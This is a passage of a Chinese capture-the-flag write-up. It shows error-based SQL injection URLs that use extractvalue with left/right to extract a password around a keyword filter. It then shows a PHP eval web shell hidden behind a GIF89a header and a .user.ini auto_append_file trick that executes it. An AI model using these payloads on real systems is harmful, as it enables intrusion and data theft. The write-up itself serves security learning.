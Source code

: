 ![](assets/202208241751641-1700744514804281.png)

substr mid 被过滤了, 利用 left 和 right 从两边截取 31 位字符, 然后手工拼接一下

```
http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(select(left(password,31))from(H4rDsq1)where(username)like('flag')),0x7e))%23
&password=123

http://ea01a9bb-14f1-4641-b8b8-600e03eb7a04.node4.buuoj.cn:81/check.php
?username=admin'^extractvalue(1,concat(0x7e,(select(right(password,31))from(H4rDsq1)where(username)like('flag')),0x7e))%23
&password=123
```

## [SUCTF 2019]CheckIn（文件上传，.user.ini）

考察 .user.ini

上传文件后发现目录下存在一个 index.php

于是先上传一个 1.txt 内容如下 (`<?` 被过滤了)

```html
GIF89a
<script language="php">eval($_REQUEST[1]);</script>
```

再上传 .user.ini

```ini
GIF89a
auto_append_file="1.txt"
```

![](assets/202208241807495-1700744514804283.png)
